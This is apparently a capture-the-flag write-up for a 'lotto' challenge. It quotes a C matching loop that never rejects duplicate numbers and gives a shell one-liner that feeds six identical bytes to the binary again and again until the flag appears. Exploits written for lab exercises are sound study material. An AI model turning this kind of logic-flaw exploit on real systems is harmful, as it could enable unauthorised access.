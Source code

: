 # Lotto

In a real lottery, you choose distinct numbers.

If you look at these lines of the supplied code:

```c
int match = 0, j = 0;
for(i=0; i<6; i++){
    for(j=0; j<6; j++){
        if(lotto[i] == submit[j]){
            match++;
        }
    }
}
```

There's no check for duplicates, which means we can supply the same number as many times as we want and eventually one of the random bytes is gonna match all 6 numbers.

We can then come up with a smart answer:

`$ (for i in $(seq 50); do echo 1; sleep 1; printf "\x01\x01\x01\x01\x01\x01"; sleep 1; done; echo 3) | ./lotto`

And hit Ctrl-C as soon as we get the flag.
